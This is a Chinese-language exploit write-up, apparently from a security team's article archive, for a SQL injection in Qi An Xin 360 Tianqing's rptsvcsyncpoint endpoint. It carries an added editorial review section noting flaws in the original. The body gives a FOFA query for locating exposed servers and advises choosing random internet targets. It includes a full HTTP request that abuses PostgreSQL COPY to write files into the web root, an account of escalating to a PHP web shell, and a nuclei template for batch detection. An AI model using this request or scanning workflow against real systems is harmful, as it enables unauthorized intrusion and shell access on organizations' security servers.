



# 奇安信 360 天擎 rptsvcsyncpoint SQL 注入漏洞 getshell

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：奇安信360天擎
- 本文讨论：rptsvcsyncpoint ccid PostgreSQL SQL注入
- 版本、权限与配置前提：DB高权限/Windows固定目录可写，手动含Cookie，版本未知
- 资料类型：SQL写文件复现与检测模板；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- HTTP路径原样含空格需编码，YAML Host含转义花括号可能妨碍模板替换
- PostgreSQL延时检测命名mysql，单次duration&gt;=3无阴性基线
- 随机公网选目标叙述缺授权边界；verified:true不是外部验证
- getshell只有一句声明无对应载荷/结果，FOFA元数据抽成正文句
- 已落实的文本修订：残缺指纹退出可执行索引并保留原值。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 版本、Cookie条件及图示结果待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/IYgP_sl4AhsAN0tENOF-nw)


漏洞描述


```
360天擎官方版能够为用户精确检测已知病毒木马、未知恶意代码，有效防御APT攻击，360天擎存在SQL注入漏洞。

```


漏洞复现


步骤一：在 Fofa 中搜索以下语法并随机确定要进行攻击测试的目标....

```
#FOFA搜索语法
banner="QiAnXin web server" || banner="360 web server"  || body="appid\":\"skylar6" || body="/task/index/detail?id={item.id}" || body="已过期或者未授权，购买请联系4008-136-360"

```

步骤二：开启代理并打开 BP 对其首页进行抓包拦截.... 修改请求包内容.... 在响应数据包的正文中返回是否成功。

```
GET /api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('123456~');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\1.txt';drop table O;-- HTTP/1.1
Host: ip
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: yourCookie
Connection: close

```



步骤三：访问上传的文件，即可回显写入的文件内容。





步骤四：尝试上传 PHP 一句话木马，上传成功，并访问。蚁剑连接，成功 getshell。


批量脚本


```
id: qianxin-360-tianqing-rptsvcsyncpoint-sqli
info:
  name: qianxin-360-tianqing-rptsvcsyncpoint-sqli
  author: xingyun
  severity: high
  tags: qianxin,sqli
  description: 360天擎官方版能够为用户精确检测已知病毒木马、未知恶意代码，有效防御APT攻击，360天擎存在SQL注入漏洞。
  metadata: 
    fofa-query: banner="QiAnXin web server" || banner="360 web server"  || body="appid\":\"skylar6" || body="/task/index/detail?id={item.id}" || body="已过期或者未授权，购买请联系4008-136-360"
    verified: true
    max-request: 1
http:
  - raw:
      - |
        @timeout: 50s
        GET /api/dp/rptsvcsyncpoint?ccid=1%27;SELECT%20PG_SLEEP(3)-- HTTP/1.1
        Host: \{\{Hostname\}\}
    matchers:     
      - type: dsl
        name: mysql
        dsl:
          - "status_code_1 == 200 && duration>=3 && contains(body,'file_count') && contains(header,'application/json')"

```

揽月安全团队发布、转载的文章中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途及盈利等目的，否则后果自行承担！！！！！

  

  


扫码获取更多精彩

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
